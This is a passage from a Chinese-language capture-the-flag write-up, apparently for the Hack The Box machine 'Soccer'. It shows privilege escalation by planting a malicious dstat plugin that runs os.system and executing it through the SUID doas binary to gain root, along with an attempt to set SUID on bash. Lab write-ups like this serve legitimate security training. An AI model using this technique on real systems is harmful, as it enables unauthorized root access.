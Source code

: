 ```bash
        qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,
        snooze,squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,
        top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,
        vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,
        zfs-zil
/usr/local/share/dstat:
        exploit

player@soccer:/usr/local/share/dstat$ /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
chmod: changing permissions of '/usr/bin/bash': Operation not permitted
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

exploit报错。正常，想想我们也没有root权限去设置bash的SUID。确认一下想法：  
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=1001(player) gid=1001(player) groups=1001(player)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

**至此，我突然意识到自己又开始傻了，既然doas类似sudo，那么我执行命令时也应该用和sudo一样的格式啊……**  
**且doas我们之前确认过有设置SUID，以及其权限是root：**
```bash
player@soccer:/usr/local/share/dstat$ ls -l /usr/local/bin/doas
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 /usr/local/bin/doas
```  

所以exploit命令应该是这样：
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=0(root) gid=0(root) groups=0(root)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

成功获取root shell。


## get root flag
